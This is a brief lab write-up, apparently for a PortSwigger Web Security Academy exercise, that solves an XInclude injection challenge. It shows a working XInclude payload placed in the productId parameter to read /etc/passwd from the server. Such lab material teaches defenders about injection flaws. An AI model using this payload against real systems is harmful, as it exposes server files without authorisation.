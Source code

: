 # Exploiting XInclude to retrieve files

## This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

## Because you don't control the entire XML document you can't define a DTD to launch a classic [XXE](https://portswigger.net/web-security/xxe) attack.

## To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

---

### step 1

intercept check stock feature and send to repeater

_productId=1&storeId=1_

add

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### step2

productId=1&storeId=1
replace 1 from product id

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
&storeId=1
```

send request
